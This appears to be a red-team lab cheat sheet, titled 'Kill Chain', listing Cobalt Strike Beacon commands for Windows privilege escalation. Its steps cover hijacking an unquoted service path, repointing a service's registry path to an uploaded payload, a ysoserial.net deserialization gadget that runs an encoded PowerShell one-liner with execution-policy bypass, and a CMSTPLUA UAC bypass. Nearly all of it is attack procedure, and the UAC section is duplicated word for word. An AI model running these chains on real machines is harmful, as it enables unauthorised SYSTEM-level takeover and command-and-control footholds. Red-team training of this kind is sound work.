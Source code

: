 # Kill Chain

## Unquoted Service Path <a href="#unquoted-service-path" id="unquoted-service-path"></a>

1. Verify the binary path of the service.
   1. `sc_qc BadWindowsService`
2. Verify the permissions of the target directory.
   1. `cacls "C:\Program Files\Bad Windows Service"`
3. Change Beacon's current working directory.
   1. `cd C:\Program Files\Bad Windows Service`
4. Upload a DNS Beacon service payload.
   1. `upload C:\Payloads\dns_x64.svc.exe`
5. Rename the payload to activate the hijack.
   1. `mv dns_x64.svc.exe Service.exe`
6.  Restart the service.

    1. `sc_stop BadWindowsService`
    2. `sc_start BadWindowsService`

    The new Beacon should appear immediately.
7. Interact with the new Beacon.
   1. `Run a checkin command.`
8. Delete the service payload.
   1. `rm Service.exe`

&#x20;

### &#x20;Service Registry Permissions

1. Verify the permissions of the service's regsitry key.
   1. `powerpick Get-Acl -Path 'HKLM:\SYSTEM\CurrentControlSet\Services\BadWindowsService' | fl`
2. Stop the service.
   1. `sc_stop BadWindowsService`
3. Change Beacon's current working directory.
   1. `cd C:\Temp`
4. Upload a DNS Beacon service payload.
   1. `upload C:\Payloads\dns_x64.svc.exe`
5. Get the current binary path.
   1. `sc_qc BadWindowsService`
6. Reconfigure the service to point to the payload.
   1. `sc_config BadWindowsService C:\Temp\dns_x64.svc.exe 0 2`
7.  Start the service.

    1. `sc_start BadWindowsService`

    The elevated Beacon should appear immediately.
8. Restore the binary path.
   1. `sc_config BadWindowsService "C:\Program Files\Bad Windows Service\Service Executable\BadWindowsService.exe" 0 2`
9. Delete the service payload.
   1. `rm dns_x64.svc.exe`

## Unsafe Deserialization <a href="#unsafe-deserialization" id="unsafe-deserialization"></a>

1.  Host a PowerShell one-liner on the medium-integrity Beacon for a DNS Beacon payload.

    > Right-click the Beacon and select **Access > One-liner**.
2.  On your Attacker Desktop, generate a serialized gadget with ysoserial.net, using the PowerShell one-liner from the previous step.

    ```terminal-nocolor
    TerminalTypeCopyC:\Tools\ysoserial.net\ysoserial\bin\Release\ysoserial.exe -g TypeConfuseDelegate -f BinaryFormatter -c "powershell -nop -ep bypass -enc ..." -o raw --outputpath=C:\Payloads\data.bin
    ```
3. Change Beacon's current working directory.
   1. `cd C:\Temp`
4. Upload the gadget.
   1. `upload C:\Payloads\data.bin`
5.  Sit back and wait for up to 60 seconds for the elevated Beacon to appear.

    > Check that the service is running with `sc_query BadWindowsService` and use `sc_start BadWindowsService` is you need to.
6. Delet`e the gadget.`
   1. `rm data.bin`

## CMSTPLUA UAC Bypass <a href="#cmstplua-uac-bypass" id="cmstplua-uac-bypass"></a>

For this bypass technique to work, the process in which our Beacon is running must live in _C:\Windows\*_.

1. Spawn a new Beacon (this spawns in _C:\Windows\System32\rundll32.exe_ by default.)
   1. `spawn x64 http`
2.  Host a PowerShell one-liner on the new Beacon.

    > Right-click the Beacon, select **Access > One-liner** and select the tcp-local listener.
3. Run the provided one-liner via **runasadmin**.
   1. `runasadmin uac-cmstplua [ONE-LINER]`
4. Connect to the elevated Beacon.
   1. `connect localhost 1337`

## CMSTPLUA UAC Bypass <a href="#cmstplua-uac-bypass" id="cmstplua-uac-bypass"></a>

For this bypass technique to work, the process in which our Beacon is running must live in _C:\Windows\*_.

1. Spawn a new Beacon (this spawns in _C:\Windows\System32\rundll32.exe_ by default.)
   1. `spawn x64 http`
2.  Host a PowerShell one-liner on the new Beacon.

    > Right-click the Beacon, select **Access > One-liner** and select the tcp-local listener.
3. Run the provided one-liner via **runasadmin**.
   1. `runasadmin uac-cmstplua [ONE-LINER]`
4. Connect to the elevated Beacon.
   1. `connect localhost 1337`
